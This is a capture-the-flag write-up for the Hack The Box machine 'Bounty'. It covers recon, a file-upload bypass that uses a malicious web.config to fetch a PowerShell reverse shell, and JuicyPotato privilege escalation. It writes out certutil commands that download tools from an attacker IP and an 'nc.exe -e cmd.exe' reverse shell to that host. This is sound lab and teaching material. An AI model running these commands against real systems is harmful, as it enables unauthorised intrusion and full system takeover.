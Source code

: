 Bounty [HTB](https://app.hackthebox.com/machines/Bounty)
![bounty-01]()

## Recon 

After adding the target to `/etc/hosts`, i run an `nmap` scan:

```bash
nmap -sC -sV -A -p- bounty.htb -oN nmap.result
```

![nmap-res-02]()

We have the following:

+ An IIS v7.5 on port 80.

We have a single web server, lets see what we can find. 


### IIS Port 80

Lets start by navigating towards the site at `http://bounty.htb` 

![site-03]()

Not much to see here, lets try a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium
.txt -u http://bounty.htb/FUZZ -e .cgi,.php,.aspx,.asp
```

![ffuf-04]()

![ffuf-05]()

We have two interesting results. The first is a file upload directory, if we use Burp to intercept the 
request to this link we will get a `403` forbbiden return code:

![forbidden-06]()

On the other hand, we have a file upload page enabled for public use on this server:

![upload-07]()

Lets try to upload a simple `.txt` file to the server:

![txt-08]()

We get an error. Lets examine the replay in `Burp`:

![burp-09]()

There is a server side `ValidateFile()` funciton. I couldnt find this functiuon executing on the client 
side. We cant be sure exactly how the function works, it could determine acceptable file types via HTTP 
headers, magic numbers, file extensions, etc. 

Lets try to upload a `jpg` image:

![jpg-10]()

So we see that `jpg` files are accepted. Can we view the image from the `uploadedfiles` directory? 

![view-11]()

Yes we can. Ok, so now ideally what we want to do is find a way to land a reverse shell. With an IIS 
server we can try a copule of things. We can try to upload an `.aspx` reverse shell, which doesnt work 
in this case. The file upload validator checks the file extension. I've tried different tricks to 
bypass this but nothing worked for me. 

But we can also inject a code inside a `web.config` file, which in this case, is accepted:

![config-12]()


If we open the file via the browser we get an internal error:

![internal-err-13]()

This happens becasue the server tried to render the file, but failed because there was no valid syntax, lets change that. 

I found a `web.config` file for a reverse shell on [Github](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config).

![rshell-14]()

As you can see, it runs a PowerShell command to grab a reverse shell from our host and execute it.
First, download the `web.config` file and update you attack machine's IP. 

Next, grab a copy of [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)'s `Invoke-PowerShellTCP.ps1` script to your working directory and invoke the reverse shell cmdlet at the buttom:

![cmdlet-15]()

Now we need to host this file via a python web server:

```bash
python3 -m http.server 80
```

Upload the `web.config` file to the server:

![upload-16]()

Start the listener:

```bash
rlwrap nc -lnvp 443
```

Execute the  `web.config` file via the URL at `http://bounty.htb/uploadedfiles/web.config`.

This should give you access to the target system:

![shell-17]()


## Privilege Escalation

If we check for our user's privileges with:

```cmd
whoami /priv
```

![privs-18]()

We can see we have the `Impersonate` privileged enabled. We can potentially exploit this with a [potato attack](https://github.com/ohpe/juicy-potato), downlaod from [here](https://github.com/ohpe/juicy-potato/releases).


Once you have the `JuicyPotato.exe` binary in your working directory, grab a copy of `/usr/share/windows-resources/binaries/nc.exe` as well. Then start a Python server with:

```bash
python3 -m http.server 80
```

Now from the traget, `cd` into a directory we can write to like `C:\Users\merlin\AppData\Local\Temp` and download both files with:

```cmd
certutil -urlcache -f http://10.10.14.62/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.62/nc.exe nc.exe
```

Start the listener with:

```bash
rlwrap nc -lnvp 9001
```


Execute the exploit with:

```cmd
C:\Users\merlin\AppData\Local\Temp\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\merlin\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.62 9001" -t *
```

This should yield you shell access as the system:

![root-19]()
